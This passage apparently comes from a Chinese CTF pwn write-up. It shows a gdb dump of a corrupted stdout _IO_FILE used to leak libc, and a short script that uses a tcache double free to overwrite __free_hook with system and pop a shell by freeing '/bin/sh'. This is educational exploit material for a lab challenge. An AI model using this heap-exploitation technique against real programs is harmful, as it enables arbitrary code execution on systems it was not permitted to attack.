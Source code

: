 ```
  file = {
    _flags = 0xfbad1800, 
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x7fbd97271700 <_IO_2_1_stderr_+128> "", 
    _IO_write_ptr = 0x7fbd972717e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_end = 0x7fbd972717e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_buf_base = 0x7fbd972717e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_buf_end = 0x7fbd972717e4 <_IO_2_1_stdout_+132> "", 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x7fbd97270a00 <_IO_2_1_stdin_>, 
    _fileno = 0x1, 
    _flags2 = 0x0, 
    _old_offset = 0xffffffffffffffff, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = "\n", 
    _lock = 0x7fbd972728c0 <_IO_stdfile_1_lock>, 
    _offset = 0xffffffffffffffff, 
    _codecvt = 0x0, 
    _wide_data = 0x7fbd972708c0 <_IO_wide_data_1>, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0xffffffff, 
    _unused2 = '\000' <repeats 19 times>
  }, 
  vtable = 0x7fbd9726d2a0 <_IO_file_jumps>
}

```
再次利用double free修改__free_hook为one_adget即可。
```
create_null_puts(0x30,'aaaa\n','aaaa\n')#5
free_null_puts(5)  
free_null_puts(5)
create_null_puts(0x30,p64(free_hook)*2 + "\n","aaaa\n")#6
create_null_puts(0x30,"\n","aaaa\n")#7
create_null_puts(0x30,p64(system),"aaaa\n")#8     overwrite free_hook --> system
create_null_puts(0x10,"/bin/sh\x00","aaaa\n")#9   getshell
free_null_puts(9)
```

### 利用IO_FILE泄露libc
+ 参考链接：https://zszcr.github.io/2019/03/18/2019-3-18-tcache%E4%B8%8B%E7%9A%84%E5%87%A0%E9%81%93pwn%E9%A2%98/
+ 
源码：https://code.woboq.org/userspace/glibc/libio/fileops.c.html#_IO_new_do_write

